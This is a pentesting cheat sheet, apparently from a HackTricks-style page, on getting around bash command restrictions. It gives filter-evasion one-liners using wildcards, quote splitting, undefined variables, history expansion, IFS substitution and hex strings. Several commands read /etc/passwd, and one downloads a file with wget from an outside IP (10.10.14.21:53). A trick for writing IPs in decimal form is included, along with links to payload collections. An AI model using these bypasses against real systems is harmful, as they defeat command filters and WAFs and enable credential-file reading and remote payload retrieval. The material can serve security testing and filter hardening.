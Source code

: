 # Bypass Bash Restrictions

## Bypass Paths and forbidden commands

```bash
#Bash substitudes * fror any possible chat tha refers to a binary in the folder
/usr/bin/p?ng #This equals /usr/bin/ping

#Bash substitudes * fror any compatible combination with a binary in the folder
/usr/bin/who*mi #This equals /usr/bin/whoami

#[chars]
/usr/bin/n[c] #/usr/bin/nc

#Concatenatipn
'p'i'n'g #Equals to call ping
"w"h"o"a"m"i
\u\n\a\m\e \-\a

#Uninitialized variables: A uninitialized variable equals to null (nothing)
p${u}i${u}n${u}g #Equals to ping, use {} to put the uninitialized variables between valid characteres
cat$u /etc$u/passwd$u #Use the uninitilized variable without {} before any symbol

#Fake commands
p$(u)i$(u)n$(u)g #Equals to ping but 3 errors trying to exeute "u" are shown
w`u`h`u`o`u`a`u`m`u`i #Equals to whoami but 5 errors trying to exeute "u" are shown

#Concating strings using history
!-1 #This will be substitude by the last command executed, and !-2 by the penultimate command
mi #This will throw an error
whoa #This will throw an error
!-1!-2 #This will execute whoami

```

## Bypass forbidden spaces

```bash
##{form}
{cat,lol.txt} #This will cat the file

##IFS - Internal field separator, change " " for any othe character ("]" in this case)
#IFS withut modifications
cat${IFS}/etc/passwd
cat$IFS/etc/passwd

#Put the command line in a variable and then execute it
IFS=];b=wget]10.10.14.21:53/lol]-P]/tmp;$b
IFS=];b=cat]/etc/passwd;$b #Using 2 ";"
IFS=,;`cat<<<cat,/etc/passwd` #Using cat twice
#Other way, just change each space for ${IFS}
echo${IFS}test

##Using hex format
X=$'cat\x20/etc/passwd'&&$X

##New lines
p\
i\
n\
g #This 4 lines will equal to ping

##Undefined variables and !
$u $u#This will be saved in the history and can be used as a space, please notice that the $u variable is undefined
uname!-1\-a #This equals to uname -a
```

## Bypass IPs

```bash
#Decimal IPs
127.0.0.1 == 2130706433
```

## More

Check more possible bypasses here: [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection\#exploits](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#exploits)

## References

https://medium.com/secjuice/web-application-firewall-waf-evasion-techniques-2-125995f3e7b0

https://medium.com/secjuice/web-application-firewall-waf-evasion-techniques-2-125995f3e7b0

https://www.secjuice.com/web-application-firewall-waf-evasion/



